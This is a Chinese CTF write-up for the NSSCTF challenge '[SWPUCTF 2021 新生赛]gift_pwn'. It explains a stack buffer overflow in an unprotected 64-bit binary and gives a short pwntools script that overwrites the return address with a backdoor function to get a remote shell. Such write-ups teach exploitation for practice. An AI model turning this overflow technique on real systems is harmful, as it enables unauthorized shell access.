




# [SWPUCTF 2021 新生赛]gift_pwn

## 基本信息

- 题目名称：[SWPUCTF 2021 新生赛]gift_pwn
- 题目链接：https://www.nssctf.cn/problem/390
- 考点清单：栈溢出、ret2text、后门函数

## 一、看到什么

### 附件分析
 

- 64位 ELF文件 
- 无栈保护 无PIE保护 

### IDA 反编译

- `vuln` 函数
    - 定义 16 字节 buf 
    - 允许读入 100 字节

 

- `gift` 函数
    - backdoor 调用 `system(/bin/sh) 
    - 起始地址 `0x4005b6`

 


## 二、想到什么解题思路

- 覆盖返回地址获取 shell
- 偏移量：buf[16] + rbp[8] = 24 字节
- 覆盖返回地址 `0x4005b6`

## 三、Payload
```python
from pwn import *
p = remote("node4.anna.nssctf.cn", 24215)
payload = b'A'*24 + p64(0x4005b6)
p.sendline(payload)
p.interactive()
```
 